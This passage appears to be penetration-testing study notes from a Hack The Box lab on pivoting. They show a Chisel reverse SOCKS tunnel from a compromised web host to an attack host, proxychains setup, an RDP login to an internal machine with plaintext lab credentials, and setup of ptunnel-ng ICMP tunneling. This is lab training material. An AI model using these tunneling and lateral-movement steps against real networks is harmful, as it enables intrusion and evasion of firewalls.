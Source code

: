  The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

### **Connecting the Chisel Client to our Attack Host**

```
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

### **Editing & Confirming proxychains.conf**

```
dollarboysushil@htb[/htb]$ tail -f /etc/proxychains.conf 
[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080
```

```bash
dollarboysushil@htb[/htb]**$** proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

`If we get error we can try different server`

## **ICMP Tunneling with SOCKS**

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. 

This method will only work if ping response are permitted within a firewalled network.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.

### **Building Ptunnel-ng with Autogen.sh**

Once the ptunnel-ng repo is cloned to our attack host, we can run the `autogen.sh` script located at the root of the ptunnel-ng directory.

```bash
dollarboysushil@htb[/htb]**$** sudo ./autogen.sh
```

- `dollarboysushil@htb[/htb]**$** scp -r ptunnel-ng ubuntu@10.129.202.64:~/` → to transfer ptunnel-ng to the pivot host.

### **Starting the ptunnel-ng Server on the Target Host**


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.